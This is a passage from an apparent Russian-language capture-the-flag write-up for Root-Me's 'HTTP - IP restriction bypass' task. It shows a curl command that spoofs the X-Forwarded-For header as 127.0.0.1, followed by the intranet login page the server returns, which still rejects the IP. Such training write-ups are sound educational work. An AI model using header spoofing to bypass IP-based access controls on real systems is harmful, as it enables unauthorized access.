 Ответ успешно получен

---

Task 6: HTTP - IP restriction bypass (10 points)

От нас требуется авторизоваться на сайте относительно локального IP-адреса. Гуглим HTTP-заголовки, который могут манипулировать IP-адресами:

![ScreenShot](screenshots/17.png)

Опытным путем узнаем, что нам необходим заголовок **X-Forwarded-For**:

```sh
C:\Users\Ivan->curl -H "X-Forwarded-For:127.0.0.1" http://challenge01.root-me.org/web-serveur/ch68/
<!DOCTYPE html>
<html>
<head>
        <title>Secured Intranet</title>
</head>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
                        <span>Your IP <strong>127.0.0.1</strong> do not belong to the LAN.</span>
                <h1>Intranet</h1>
                <form method="post">
                        <p>
                                <label for="login">Login:</label>
                                <input type="text" name="login">
                        </p>
                        <p>
                                <label for="pass">Password:</label>
                                <input type="text" name="mdp">
                        </p>
                        <p>
                                <input type="submit" value="login">
                        </p>
                        <p>
                                <small>You should authenticate because you're not on the LAN.</small>
                        </p>
                </form>
```